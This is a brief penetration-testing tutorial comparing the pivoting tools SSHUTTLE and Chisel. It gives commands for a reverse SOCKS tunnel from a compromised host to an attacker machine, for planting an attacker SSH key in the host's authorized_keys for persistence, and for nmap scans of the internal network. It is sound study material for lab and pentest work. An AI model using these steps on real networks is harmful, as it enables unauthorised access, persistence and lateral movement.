 # Pivoting (SSHUTTLE VS Chisel)

### Compatibility

There are several pivoting tools available in the Internet. Both SSHUTTLE and Chisel are two very great examples. Chisel has many releases that are available for download at [https://github.com/jpillora/chisel/releases](https://github.com/jpillora/chisel/releases), and could work with both Windows and Linux machines. SSHUTTLE, on the other hand, requires SSH access to a target, and due to this reason, can be more easily setup with Linux machines.

### Functionality

From experience, SSHUTTLE seems to be faster than Chisel, not to mention that you could surf the internal network’s IP addresses in Firefox without using proxychains, which is a significant advantage over Chisel. Not only with Firefox, but any commands (e.g. nmap, crackmapexec) can be run on the internal network’s machines without the need to use proxychains, thereby making SSHUTTLE a “transparent” tunnel, ultimately giving the impression that your attacking machine sits in the internal network. This is the one huge advantage of SSHUTTLE over Chisel.

### Proxychains Configuration

To use either chisel or sshuttle, add the following line in /etc/proxychains4.conf:

```bash
socks5 	127.0.0.1 1080
```

### Chisel

To setup chisel, on the attacking machine, run the following command:

```bash
./chisel server -p 8000 --reverse
```

On the compromised host, run the following command:

```bash
.\chisel.exe client $attacker_ip:8000 R:socks
```

Now you can begin scanning the internal network machines using proxychains.

```bash
proxychains nmap -Pn -sT -n --top-ports 10 $ip
```

### SSHUTTLE

First, on the attacking machine, generate SSH keys if you haven’t done so previously.

```bash
ssh-keygen
```

Then, copy the contents of the public key.

```bash
cat /root/.ssh/id_ed25519.pub
```

Next, on the compromised host, cd to a home folder (could be /root too), and run the following command (replacing $contents with the contents of the public key above).

```bash
mkdir .ssh && echo "$contents" >> .ssh/authorized_keys
```

Now, from the attacking machine, you could SSH to the compromised host without specifying passwords. This allows you to use SSHUTTLE. The syntax and an example is shown below.

```bash
sshuttle -vr $ip $subnet/24
```

```bash
sshuttle -vr 192.168.1.25 172.16.2.0/24
```

Now you are in the internal network and could start scanning machines (without the need for proxychains).

```bash
nmap -Pn -sT -n --top-ports 10 $ip
```